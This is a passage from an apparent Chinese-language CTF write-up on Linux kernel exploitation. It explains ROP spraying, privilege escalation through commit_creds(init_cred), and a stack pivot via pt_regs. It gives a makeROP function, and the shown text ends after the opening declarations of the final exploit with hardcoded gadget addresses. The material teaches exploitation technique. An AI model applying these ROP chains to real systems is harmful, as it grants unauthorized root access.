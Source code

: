 #### Step 3: 填充空间
我们使用ROP来填充分配到的所有空间，经过ROPgadget查询发现，没有``mov rdi, rax; ret``这样的gadget，因此我们无法使用``commit_creds(prepare_kernel_cred(NULL))``来提权，因为内部函数的执行结果保存在rax中，必须要将其转移到rdi才行，这里没有这个gadget，那我们就换一种方式：``commit_creds(init_cred)``，这里的init_cred在.data段，就是表示root权限的creds结构体。之后我们需要正常返回到用户态中，这里原文使用的是一个函数``swapgs_restore_regs_and_return_to_usermode``。通过函数名我们可以知道这是一个保存pt_regs结构并且返回到用户态的函数。至于为什么不能像前面两道题那样分别将``swapgs``和``iretq``的gadget保存在ROP中，猜测是因为这个vmlinux中没有``iretq; ret``这样的gadget。

可以看到下图中，函数一开始将寄存器基本上全pop了一遍，因为正常情况下调用这个函数的时候栈中只剩下pt_regs这个结构体，因此这是将结构体中保存的寄存器值再弹出到寄存器中。由于我们这里是伪造的ROP，因此不需要前面的pop，直接返回到第一个非pop语句即可。

![](5.png)
![](6.png)
上图红框的部分有两个pop指令，需要我们在ROP链中再添加两个无效的值，这也算是ROP到这个函数的一个基本的姿势了。之后只需要跟上我们先前在``save_status``中保存的值就可以了。

```c
void makeROP(size_t* space){
    int index = 0;
    for(; index < page_size / 8 - 0x10; index++)
        space[index] = ret;
    space[index++] = poprdi_ret;
    space[index++] = init_cred;
    space[index++] = commit_creds;
    space[index++] = swapgs_restore_regs_and_return_to_usermode;
    space[index++] = 0xdeadbeefdeadbeef;
    space[index++] = 0xdeadbeefdeadbeef;
    space[index++] = *(size_t*)getShell;
    space[index++] = user_cs;
    space[index++] = user_rflags;
    space[index++] = user_sp;
    space[index] = user_ss;
}
```

#### Step 4: 构造栈迁移
我们的ROP链都是在用户空间编写的，能够映射到内核空间的某个地方，但是要执行这些ROP还需要我们将栈引导到这些内核映射区中。这就要使用到ioctl函数中的地址执行功能了，可以让函数指针指向一个能为rsp赋值的gadget，可以进行栈迁移。

需要注意的是，本题的栈迁移构造条件还是较为苛刻的，我们计划将函数指针赋值为一个可能指向我们spray ROP的地址，在其中写入能够add rsp的gadget，这样能够让内核的栈指针指向pt_regs结构，在pt_regs结构中我们只能利用r9和r8这两个寄存器构造ROP，在这两个寄存器中我们需要构造一个栈迁移，即写入诸如pop rsp这一类的gadget。经过测试发现，对于第一步的add rsp，我们构造的ROP距离rsp有0xC0，而有一个gadget``add rsp, 0xA0; pop rbx; pop r12; pop r13; ret``刚好满足我们的要求。使用这个gadget可以让我们成功进行栈迁移。

至此，所有的逻辑都已经清晰可见。其本质就是栈迁移到我们构造的地址，只是利用了direct mapping area这个区域的特性而已。

最终的exp：
```c
//
// Created by root on 22-7-7.
//
#include <stdio.h>
#include <unistd.h>
#include <fcntl.h>
#include <stdlib.h>
#include <string.h>
#include <ctype.h>
#include <sys/mman.h>

const size_t commit_creds = 0xFFFFFFFF810C92E0;
const size_t init_cred = 0xFFFFFFFF82A6B700;
const size_t swapgs_restore_regs_and_return_to_usermode = 0xFFFFFFFF81C00FB0 + 0x1B;
const size_t ret = 0xFFFFFFFF810001FC;
const size_t poprdi_ret = 0xffffffff8108c6f0;
const size_t poprsp_ret = 0xffffffff811483d0;
const size_t add_rsp_0xa0_pop_rbx_pop_r12_pop_r13_pop_rbp_ret = 0xffffffff810737fe;
long page_size;
```